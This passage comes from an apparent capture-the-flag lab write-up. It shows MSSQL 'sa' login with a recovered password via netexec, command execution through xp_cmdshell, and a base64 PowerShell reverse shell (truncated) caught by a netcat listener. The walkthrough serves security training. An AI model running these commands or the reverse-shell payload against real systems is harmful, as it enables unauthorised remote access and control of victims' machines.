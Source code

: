 ```
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ
```

Using the local-auth flag, we can authenticate as `sa` as well:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ netexec mssql sequel.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

The `(Pwn3d!)` suggests we can run commands remotely as this user. Using `netexec` to execute commands:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ netexec mssql sequel.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "whoami"
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.10.11.51     1433   DC01             sequel\sql_svc
```

We can see we are running terminal commands as the service account `sql_svc`, which was a user earlier identified on the host. From this point we can use a reverse shell payload to obtain an interactive shell, my preferred method is the powershell base64 payload generated from revshells.com:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ netexec mssql sequel.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd<...SNIP...>
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
[16:21:53] ERROR    Error when attempting to execute command via xp_cmdshell: timed out     mssqlexec.py:30
[16:21:58] ERROR    [OPSEC] Error when attempting to restore option 'xp_cmdshell': timed    mssqlexec.py:47
                    out
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
```

Meanwhile on our listener process:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.15.65] from (UNKNOWN) [10.10.11.51] 54743
whoami
sequel\sql_svc
PS C:\Windows\system32>
```
